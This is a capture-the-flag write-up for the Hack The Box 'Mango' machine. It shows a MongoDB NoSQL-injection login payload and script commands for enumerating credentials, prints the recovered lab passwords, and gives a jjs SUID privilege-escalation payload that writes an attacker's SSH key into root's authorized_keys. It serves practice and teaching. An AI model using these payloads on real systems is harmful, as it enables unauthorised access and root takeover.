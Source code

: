 # Mango
Box IP **10.10.10.162**


### Nmap scan

```bash
$ nmap -sC -sV -T5 -v mango.htb
```

### Services
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Mango/src/1.png" alt="1" />
</p>

Access to webserver on port 80 is forbidden, and connection of port 443 reveals an invalid certificate

By investigating the certificate we find some interesting info

<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Mango/src/2.png" alt="1" />
</p>

Jumping to this address we found a login page


### MongoDB

We exploit MongoDB [regex](https://docs.mongodb.com/manual/reference/operator/query/regex/) to enumerate **users** and **password**.

If the regex matches, the server replies with status **302**, otherwise with **200**
```
POST / HTTP/1.1
...
username[$regex]=^admi.*&password[$ne]=1&login=login
```

<p align="center">
  <img src="https://github.com/lorenzoinvidia/HTB-CheatSheets/blob/master/src/web/mongo.png" alt="HTB" />
</p>

We [speedup](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/blob/master/nosqli-user-pass-enum.py) the credential grabbing by

```bash
$ python3 nosqli-user-pass-enum.py -u https://staging-order.mango.htb -m POST -up username -pp password -op login:login -ep username
$ python3 nosqli-user-pass-enum.py -u http://staging-order.mango.htb -m POST -up username -pp password -op login:login -ep password
```

And we get **mango:h3mXK8RhU~f{]f5H** and **admin:t9KcS3>!0B#2**

We authenticate as **mango** in SSH and by switching user to **admin** we get the user flag


### Privilege Escalation

By searching for suid binaries
```
$ find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

we find a jss binary /usr/lib/jvm/java-11-openjdk-amd64/bin/**jjs**

As [gtfobins](https://gtfobins.github.io/gtfobins/jjs/) suggests we basically can

- write our ssh PK in the root directory
```
$ echo 'var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/root/.ssh/authorized_keys");
fw.write("YOUR PUBLIC KEY");
fw.close();' | jjs
```

- open a [reverse shell](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Shells#spawn-reverse-shell)

- directly print the root flag

<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Mango/src/3.png" alt="1" />
</p>


If you liked this writeup, please leave a respect on my hackthebox

![htbbadge](https://www.hackthebox.eu/badge/image/77747)
